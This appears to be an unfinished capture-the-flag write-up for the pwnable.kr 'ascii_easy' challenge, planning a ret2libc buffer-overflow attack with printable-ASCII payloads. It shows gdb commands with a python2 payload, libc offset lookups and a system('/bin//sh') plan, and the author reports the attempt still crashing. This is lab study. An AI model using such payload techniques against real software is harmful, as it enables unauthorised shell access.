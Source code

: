 # `ascii_easy`

*We often need to make 'printable-ascii-only' exploit payload.  You wanna try?
hint : you don't necessarily have to jump at the beginning of a function. try to land anywhere.*

```bash
[*] '/mnt/c/Users/reemp/Desktop/not-giving-a-fuck/ascii_easy/ascii_easy'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
we get a program with buffer overflow but the inputted buffer can only be an ascii value between 32 to 127. meaning each byte value is between 32 to 127.

we are mapping `libc` to the base address of `0x5555e000` 

Direction - `ret2libc`
1. overflow the RA of vuln to the address of `system` or if I can't then to somewhere inside that function
2. put above the return address the value of `/bin//sh` (little endian).

`payload = [padding] [/bin//sh] [system's address]`

### let's run in `gdb` the payload. 
1. checking the payload with `--args` 
	```bash
	gdb --args ./ascii_easy `python2 -c "print('A'*20 + '/bin//sh' + 'SYRA' + 'RARA')"`
	```
	`b *0x804852d` - after `strcpy`
	```text
	b *0x804852d
	set {int}0xffffcb7c = 0x5559ced0
	```
1. finding RA the offset (and checking it remotely)  (24 padding locally and remotely)
2. finding the location of system (and a location that is valid ascii value) 
	`readelf -s /home/ascii_easy/libc-2.15.so | grep system` offset -> `0003eed0`
	we know that the base address of the mapped `libc` is at `0x5555e000` so system is at `0x5559ced0`
3. executing `system` it crashed, I think it was because we didn't pass `/bin//sh` correctly
	system expects that the stack would look like that `[last_param][RA]` and we passed the `last_param` at the `RA` place. still crashed...
## `scp`
`scp -P 2222  ascii_easy@pwnable.kr:~/* .` holy moly that's cool.

when running the program locally  it thinks the `libc` is at `/home/ascii_easy/libc-2.15.so` so I tried to link.
`sudo ln -s /mnt/c/Users/reemp/Desktop/not-giving-a-fuck/ascii_easy/libc-2.15.so /home/ascii_easy/libc-2.15.so`
but this didn't work. I moved the file to the directory (`/home/ascii_easy/libc-2.15.so`) and it worked :).
